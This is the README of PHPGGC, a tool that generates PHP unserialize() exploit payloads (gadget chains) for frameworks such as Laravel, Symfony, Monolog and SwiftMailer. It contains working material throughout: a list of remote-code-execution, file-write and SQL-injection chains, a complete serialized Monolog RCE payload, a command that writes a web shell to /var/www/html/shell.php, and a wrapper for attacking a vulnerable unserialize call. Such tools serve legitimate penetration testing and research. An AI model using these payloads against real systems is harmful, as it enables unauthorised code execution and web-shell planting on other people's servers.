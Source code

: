 # PHPGGC: PHP Generic Gadget Chains

*PHPGGC is a library of unserialize() payloads along with a tool to generate them, from command line or programmatically*.
When encountering an unserialize on a website you don't have the code of, or simply when trying to build an exploit, this tool allows you to generate the payload without having to go through the tedious steps of finding gadgets and combining them. It can be seen as the equivalent of [frohoff's ysoserial](https://github.com/frohoff/ysoserial), but for PHP.
Currently, the tool supports: Doctrine, Guzzle, Laravel, Magento, Monolog, Phalcon, Slim, SwiftMailer, Symfony, Yii and ZendFramework.

## Requirements

PHP >= 5.6 is required to run PHPGGC.

## Update

* ThinkPHP v5.0.x file write
* ThinkPHP v5.2.x RCE
* ThinkPHP v6.0.x RCE
* ThinkPHP v5.x file delete

## Usage

Run `./phpggc -l` to obtain a list of gadget chains:

```
$ ./phpggc -l

Gadget Chains
-------------

NAME                  VERSION           TYPE             VECTOR         I
Doctrine/FW1          ?                 file_write       __toString     *
Guzzle/FW1            6.0.0 <= 6.3.2    file_write       __destruct
Guzzle/RCE1           6.0.0 <= 6.3.2    rce              __destruct
Laravel/RCE1          5.4.27            rce              __destruct
Laravel/RCE2          5.5.39            rce              __destruct
Laravel/RCE3          5.5.39            rce              __destruct     *
Laravel/RCE4          5.5.39            rce              __destruct
Magento/SQLI1         ? <= 1.9.3.4      sql_injection    __destruct
Monolog/RCE1          1.18 <= 1.23      rce              __destruct
Monolog/RCE2          1.5 <= 1.17       rce              __destruct
Phalcon/RCE1          <= 1.2.2          rce              __wakeup       *
Slim/RCE1             3.8.1             rce              __toString
SwiftMailer/FW1       5.1.0 <= 5.4.8    file_write       __toString
SwiftMailer/FW2       6.0.0 <= 6.0.1    file_write       __toString
SwiftMailer/FW3       5.0.1             file_write       __toString
Symfony/FW1           2.5.2             file_write       DebugImport    *
Symfony/RCE1          3.3               rce              __destruct     *
Symfony/RCE2          2.3.42 < 2.6      rce              __destruct     *
Symfony/RCE3          2.6 <= 2.8.32     rce              __destruct     *
ThinkPHP/FD1          5.x               file_delete      __destruct     *
Yii/RCE1              1.1.19            rce              __wakeup       *
ZendFramework/RCE1    ? <= 1.12.20      rce              __destruct     *

```

Every gadget chain has:

- Name: Name of the framework/library
- Version: Version of the framework/library for which gadgets are for
- Type: Type of exploitation: RCE, File Write, File Read, Include...
- Vector: the vector to trigger the chain after the unserialize (`__destruct()`, `__toString()`, `offsetGet()`, ...)
- Informations: Other informations about the chain

Use `-i` to get detailed information about a chain:

```
$ ./phpggc -i symfony/rce1
Name           : Symfony/RCE1
Version        : 3.3
Type           : rce
Vector         : __destruct
Informations   : 
Exec through proc_open()

./phpggc Symfony/RCE1 <code>
```

Once you have selected a chain, run `./phpggc <gadget-chain> [parameters]` to obtain the payload.
For instance, to obtain a payload for Monolog, you'd do:

```
$ ./phpggc monolog/rce1 'phpinfo();'
O:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";r:2;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:10:"phpinfo();";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"assert";}}}
```

For a file write using SwiftMailer, you'd do:

```
$ echo 'It works !' > /tmp/data
$ ./phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
O:13:"Swift_Message":8:{...}
```

Arguments allow to modify the way the payload is output. For instance, `-u` will URL encode it, and `-b` will convert it to base64.
Payloads often contain NULL bytes and cannot be copy/pasted as-is. Use `-s` for a soft URL encode, which keeps the payload readable.

The `-w` option allows you to define a PHP file containing a `wrapper($chain)` function.
This will be called after the chain is built, but before the `serialize()`, in order to adjust the payload's shape.
For instance, if the vulnerable code looks like this:

```
$data = unserialize($_GET['data']);
print $data['message'];
```

You could use a __toString() chain, wrapping it like so:

```
# /tmp/my_wrapper.php

function wrapper($chain)
{
    return array(
        'message' => $chain
    );
}
```

And you'd call phpggc like so:

```
$ ./phpggc -w /tmp/my_wrapper.php slim/rce1 'phpinfo();'
a:1:{s:7:"message";O:18:"Slim\Http\Response":2:{...}}
```

## Contributing

Pull requests are more than welcome. Please follow these simple guidelines:

- Error-free payloads are prefered, as some websites exit abruptly even with E_NOTICE errors
- `__destruct()` is always the best vector
- Specify at least the version of the library you've built the payload on
- Refrain from using references unless it is necessary or drastically reduces the size of the payload. If the payload is modified by hand afterwards, this might cause problems.
- Do not include unused parameters in the gadget definition if they keep their default values. It just makes the payload bigger.

Codewise, the directory structure is fairly straightforward: gadgets in _gadgets.php_, description + logic in _chain.php_.
You can define pre- and post- processing methods, if parameters need to be modified.
Hopefully, the already implemented gadgets should be enough for you to build yours.
Otherwise, I'd be glad to answer your questions.

